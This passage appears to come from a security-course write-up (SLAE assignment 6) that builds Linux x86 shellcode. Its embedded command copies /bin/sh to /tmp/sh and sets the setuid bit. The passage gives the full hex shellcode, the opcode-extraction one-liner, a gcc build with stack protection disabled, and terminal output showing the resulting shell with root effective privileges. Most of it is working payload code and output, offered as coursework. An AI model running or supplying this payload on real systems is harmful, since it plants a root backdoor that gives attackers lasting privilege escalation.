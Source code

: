 ```nasm
	call execute
	db "cp /bin/sh /tmp/sh; chmod +s /tmp/sh"
```

Compile and test.

```
absolomb@ubuntu:~/SLAE/assignments/6$ ./compile.sh execve
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
absolomb@ubuntu:~/SLAE/assignments/6$ for i in $(objdump -d execve |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\xeb\x06\x57\x53\x89\xe1\xcd\x80\xe8\xf5\xff\xff\xff\x63\x70\x20\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2f\x74\x6d\x70\x2f\x73\x68\x3b\x20\x63\x68\x6d\x6f\x64\x20\x2b\x73\x20\x2f\x74\x6d\x70\x2f\x73\x68
```

Place shellcode in a C wrapper (same as above) and compile with GCC.

```
absolomb@ubuntu:~/SLAE/assignments/6$ gcc setuid.c -o setuid -fno-stack-protector -z execstack
```

Now run to test.

```
absolomb@ubuntu:~/SLAE/assignments/6$ sudo ./setuid
Shellcode Length:  74
absolomb@ubuntu:~/SLAE/assignments/6$ ls -al /tmp
total 144
drwxrwxrwt  7 root     root       4096 Apr 20 10:08 .
drwxr-xr-x 22 root     root       4096 Mar 19 16:33 ..
-rw-------  1 absolomb absolomb      0 Apr 20 06:28 config-err-o7e65E
drwxrwxrwt  2 root     root       4096 Apr 20 06:28 .ICE-unix
-rwsr-sr-x  1 root     absolomb 112204 Apr 20 10:09 sh
-rw-rw-r--  1 absolomb absolomb      0 Apr 20 06:28 unity_support_test.0
drwx------  2 absolomb absolomb   4096 Apr 20 06:28 vmware-absolomb
drwxrwxrwt  2 root     root       4096 Apr 20 06:28 VMwareDnD
drwx------  2 root     root       4096 Apr 20 06:57 vmware-root
-r--r--r--  1 root     root         11 Apr 20 06:28 .X0-lock
drwxrwxrwt  2 root     root       4096 Apr 20 06:28 .X11-unix
```
Our shell is indeed in /tmp with a root setuid.

```
absolomb@ubuntu:~/SLAE/assignments/6$ id
uid=1000(absolomb) gid=1000(absolomb) groups=1000(absolomb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
absolomb@ubuntu:~/SLAE/assignments/6$ /tmp/sh
# id
uid=1000(absolomb) gid=1000(absolomb) euid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare),1000(absolomb)
```

Success!
